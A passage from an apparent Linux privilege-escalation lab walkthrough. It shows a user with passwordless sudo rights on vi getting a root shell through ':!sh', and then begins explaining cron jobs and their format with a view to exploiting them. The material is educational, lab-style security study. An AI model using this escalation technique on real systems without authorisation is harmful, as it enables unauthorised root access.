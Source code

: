

```sh
#check user8's privilege
user8@polobox:/home/user3$ sudo -l
Matching Defaults entries for user8 on polobox:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user8 may run the following commands on polobox:
    (root) NOPASSWD: /usr/bin/vi

#get the root privilege
user8@polobox:/home/user3$ sudo vi
---
:!sh
---
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
```

## 8.Escaping Crontab

**What is Cron?**

The Cron daemon is a long-running process that executes commands at specific dates and times. You can use this to schedule activities, either as one-time events or as recurring tasks. You can create a crontab file containing commands and instructions for the Cron daemon to execute.

How to view what Cronjobs are active.

We can use the command "cat /etc/crontab" to view what cron jobs are scheduled. This is something you should always check manually whenever you get a chance, especially if LinEnum, or a similar script, doesn't find anything.

Format of a Cronjob

Cronjobs exist in a certain format, being able to read that format is important if you want to exploit a cron job. 

*#* = ID

m = Minute

h = Hour

dom = Day of the month

mon = Month

dow = Day of the week

user = What user the command will run as

command = What command should be run
